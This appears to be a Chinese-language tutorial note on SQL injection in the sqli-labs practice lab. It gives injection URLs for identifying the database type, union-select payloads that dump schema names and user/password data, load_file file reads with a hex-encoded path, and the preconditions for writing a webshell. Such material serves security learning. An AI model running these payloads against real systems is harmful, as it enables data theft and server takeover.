 - 判断是否是 Mysql数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables) #

- 判断是否是 access数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects) #

- 判断是否是 Sqlserver数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects) #

- 判断是否是Oracle数据库
    - http://127.0.0.1/sqli/Less-5/?id=1' and (select count(*) from dual)>0 #

- MariaDB数据库管理系统是MySQL的一个分支，MariaDB的目的是完全兼容MySQL，包括API和命令行，使之能轻松成为MySQL的代替品。

### union联合查询

- union联合查询适用于有显示列的注入。

- 我们可以通过order by来判断当前表的列数。Order by  3/2/1 。直接跟在注入点后面，后面的语句要注释掉。

- 我们可以通过 union 联合查询来知道显示的列数 ，union select 1,2,3.....n  ，找到哪些列的数据会被显示到页面。(union会将两个select语句的结果合并成一个集合（也就是多行数据），所以union之前的我们需要输入一个无效的用户数据）

- | **查询当前数据库名和版本** | union select database(),version(),user(),@@basedir,@@datadir  ，       @@basedir可以获取mysql的安装路径，@@datadir用来获取mysql的数据路径。 |
    | -------------------------- | ------------------------------------------------------------ |
    | **查询全部数据库名**       | SELECT       group_concat(**schema_name**) FROM **information_schema.schemata**; |
    | **爆表名注入**             | select 1,group_concat(**table_name**) from **information_schema.tables** where **table_schema**='数据库名' # |
    | **得到列名**               | union select  group_concat (column_name) from       **information_schema.columns** where **table_schema**='security'and **table_name**='users'# |
    | **爆数据**                 | select 1,count(user),count(password) from 当前数据库中的表   （或者使用group_concat爆出数据（慎用） ）       获取当前数据库中指定表的指定字段的值(只能是database()所在的数据库内的数据，因为处于当前数据库       下的话不能查询其他数据库内的数据) |

### 文件读写：写webshell，然后连接。

- 当有显示列的时候，文件读可以利用     union 注入。

- 当没有显示列的时候，只能利用盲注进行数据读取。

- union注入读写文件(load_file函数和select     into outfile语句):

    - 读文件

    - ```mysql
        #需要知道文件的物理路径：
        union select 1,2,load_file("e:/3.txt")#， 
        可以将path转成16进制，
        
        `union select 1,2,load_file(0x653a2f332e747874)#`   
        e:/3.txt 转换成16进制 0x653a2f332e747874
        ```

        写文件

        - 需要对目标目录具有写权限

        - 要知道网站的绝对路径

        - GPC关闭(GPC:是否对单引号转义)
